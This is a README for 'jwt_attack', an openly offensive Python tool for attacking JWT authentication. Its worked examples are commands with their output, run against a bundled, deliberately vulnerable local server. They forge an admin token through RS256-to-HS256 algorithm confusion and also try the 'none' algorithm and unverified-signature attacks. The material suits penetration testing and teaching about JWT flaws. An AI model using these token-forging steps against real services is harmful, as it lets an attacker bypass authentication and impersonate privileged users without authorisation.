 # JWT Attack

Tool for attacking JWT implementations.

# How it works

You pass a working curl statement to `jwt_attack` (along with the key if you have it), and it will extract the JWT and perform a number of attacks.

# Setup

```bash
git clone git@github.com:fx2301/jwt_attack.git
cd jwt_attack
pip install -r requirements.txt
```

# Examples

Both are examples of attacking an endpoint vulnerable to algorithm confusion (tricking the implementation into using HS256 with a known RSA public key).

# Concise example

This is the final step of the attack. `jwt_attack` demonstrates that the existing payload is valid when changed to an HS256 algorithm, then outputs a curl statement with the desired target payload:

```bash
python3 jwt_attack.py --key-file public.key --target-payload '{"username":"admin"}' curl http://localhost:5000/alg_confusion -H 'Authorization: eyJhbGciOiAiUlMyNTYifQ.eyJ1c2VybmFtZSI6ICJndWVzdCJ9.dEYHdN8blOLC3AAdM2WLuaSoeh2mXUkS4Adjzroq8ED7E2n1ZwUGV9Qw9u3mb905cPo4pAb410OW1Oik0KY1BQ'
```

outputs:
```
Testing for identical results...
Attempting attack: signature not verified ... FAILURE
Attempting attack: none algorithm allowed ... FAILURE
Attempting attack: algorithm confusion ... SUCCESS

Successful JWT:
{
  "token": "eyJhbGciOiAiSFMyNTYifQ.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.T7RHNDdo5vGxNZH4vKwpyOCL01sDC3bvR_wMWf8xPMk",
  "header": {
    "alg": "HS256"
  },
  "payload": {
    "username": "admin"
  },
  "signature": "T7RHNDdo5vGxNZH4vKwpyOCL01sDC3bvR_wMWf8xPMk"
}

Successful curl command:
curl http://localhost:5000/alg_confusion -H 'Authorization: eyJhbGciOiAiSFMyNTYifQ.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.T7RHNDdo5vGxNZH4vKwpyOCL01sDC3bvR_wMWf8xPMk'
```

## Full example

1. First we obtain a valid curl request protected by a JWT. In this case we are constructing a curl request from the [vulnerable server](https://github.com/fx2301/jwt_attack/blob/master/vulnerable.py):

```bash
curl http://localhost:5000/alg_confusion
```

outputs:
```html
<p>A valid authorization header is: <code>eyJhbGciOiAiUlMyNTYifQ.eyJ1c2VybmFtZSI6ICJndWVzdCIsICJpYXQiOiAxNjQyNTkwMzAxfQ.ZCIHzrTsu8RF1pE2FuDALmL2CR2MU4b-UoqOHva9itwxjq1oAUzkZ6PY7CpzvtQuQkNvVVB4if4LIgh3X8sABQ</code>. Now assume the username admin.</p><p>You have two approaches for obtaining the public key:<ol><li>Download the public key here: <a href="/alg_confusion_public_key">/alg_confusion_public_key</a>.</li><li>Derive the public key using <a href="https://github.com/silentsignal/rsa_sign2n/tree/release/standalone">https://github.com/silentsignal/rsa_sign2n/tree/release/standalone</a>.</li></ol></p>
```

2. We verify that our curl statement is valid:
```bash
curl http://localhost:5000/alg_confusion -H 'Authorization: eyJhbGciOiAiUlMyNTYifQ.eyJ1c2VybmFtZSI6ICJndWVzdCIsICJpYXQiOiAxNjQyNTkwMzAxfQ.ZCIHzrTsu8RF1pE2FuDALmL2CR2MU4b-UoqOHva9itwxjq1oAUzkZ6PY7CpzvtQuQkNvVVB4if4LIgh3X8sABQ'
```

outputs:
```html
<p>Not quite. Your username needs to be admin.</p>
```

3. We inspect our token using `jwt_attack` with `--inspect`:

```bash
python3 jwt_attack.py --inspect curl http://localhost:5000/alg_confusion -H 'Authorization: eyJhbGciOiAiUlMyNTYifQ.eyJ1c2VybmFtZSI6ICJndWVzdCIsICJpYXQiOiAxNjQyNTkwMzAxfQ.ZCIHzrTsu8RF1pE2FuDALmL2CR2MU4b-UoqOHva9itwxjq1oAUzkZ6PY7CpzvtQuQkNvVVB4if4LIgh3X8sABQ'
```

We see the `alg` is `RS256` as expected:
```
Token is:
{
  "token": "eyJhbGciOiAiUlMyNTYifQ.eyJ1c2VybmFtZSI6ICJndWVzdCIsICJpYXQiOiAxNjQyNTkwMzAxfQ.ZCIHzrTsu8RF1pE2FuDALmL2CR2MU4b-UoqOHva9itwxjq1oAUzkZ6PY7CpzvtQuQkNvVVB4if4LIgh3X8sABQ",
  "header": {
    "alg": "RS256"
  },
  "payload": {
    "username": "guest",
    "iat": 1642590301
  },
  "signature": "ZCIHzrTsu8RF1pE2FuDALmL2CR2MU4b-UoqOHva9itwxjq1oAUzkZ6PY7CpzvtQuQkNvVVB4if4LIgh3X8sABQ"
}
```

4. We obtain the public key used from [/alg_confusion_public_key](http://localhost:5000/alg_confusion_public_key):

```bash
curl http://localhost:5000/alg_confusion_public_key -o public.key
```

5. Now we attack the implementation using --key-file and --target-payload:
```bash
python3 jwt_attack.py --key-file public.key --target-payload '{"username":"admin"}' curl http://localhost:5000/alg_confusion -H 'Authorization: eyJhbGciOiAiUlMyNTYifQ.eyJ1c2VybmFtZSI6ICJndWVzdCIsICJpYXQiOiAxNjQyNTkwMzAxfQ.ZCIHzrTsu8RF1pE2FuDALmL2CR2MU4b-UoqOHva9itwxjq1oAUzkZ6PY7CpzvtQuQkNvVVB4if4LIgh3X8sABQ'
```

The attack succeeds, and we see the resulting JWT contents and curl statement:
```
Testing for identical results...
Attempting attack: signature not verified ... FAILURE
Attempting attack: none algorithm allowed ... FAILURE
Attempting attack: algorithm confusion ... SUCCESS

Successful JWT:
{
  "token": "eyJhbGciOiAiSFMyNTYifQ.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.y-h_ZX0UQrajllr9f9xEso4FkL8AFCui5et-Qbg8u10",
  "header": {
    "alg": "HS256"
  },
  "payload": {
    "username": "admin"
  },
  "signature": "y-h_ZX0UQrajllr9f9xEso4FkL8AFCui5et-Qbg8u10"
}

Successful curl command:
curl http://localhost:5000/alg_confusion -H 'Authorization: eyJhbGciOiAiSFMyNTYifQ.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.y-h_ZX0UQrajllr9f9xEso4FkL8AFCui5et-Qbg8u10'
```

7. We now verify the successful curl command:
```bash
curl http://localhost:5000/alg_confusion -H 'Authorization: eyJhbGciOiAiSFMyNTYifQ.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.y-h_ZX0UQrajllr9f9xEso4FkL8AFCui5et-Qbg8u10'
```

```html
<p>Success! Your username is admin.</p>
```

# Sanbox testing

This repository comes with a HTTP service that exposes endpoints you can test with:

* [/signature_not_verified](http://localhost:5000/signature_not_verified)
* [/alg_none_allowed](http://localhost:5000/alg_none_allowed)
* [/alg_confusion](http://localhost:5000/alg_confusion) see also  [/alg_confusion_public_key](http://localhost:5000/alg_confusion_public_key)
* [/not_vulnerable](http://localhost:5000/not_vulnerable)

Run it with:

```bash
pip install -r requirements.txt
python3 vulnerable.py
```




